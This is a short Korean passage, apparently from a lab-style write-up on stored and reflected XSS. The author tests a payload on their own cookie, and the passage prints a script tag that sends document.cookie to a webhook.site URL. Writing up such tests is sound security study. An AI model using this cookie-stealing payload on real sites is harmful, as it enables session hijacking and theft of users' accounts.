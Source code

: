 **우선, 페이로드가 정상적으로 동작하는지 확인하기 위해 본인의 쿠키 값을 webhook을 통해 전송하는 테스트를 진행하였다.**

![xss4 payload](/assets/screenshots/stored-reflected-xss/xss4_payload.png)

```html
<SCRIPT>new Image().src="https://webhook.site/00da818a-c861-444c-8a3a-c50bd3e46a01?cookie="+document.cookie</SCRIPT>
```

위와 같이 페이로드를 작성한 후, 해당 URL에 직접 접근하여 스크립트 실행 여부를 확인하였다.
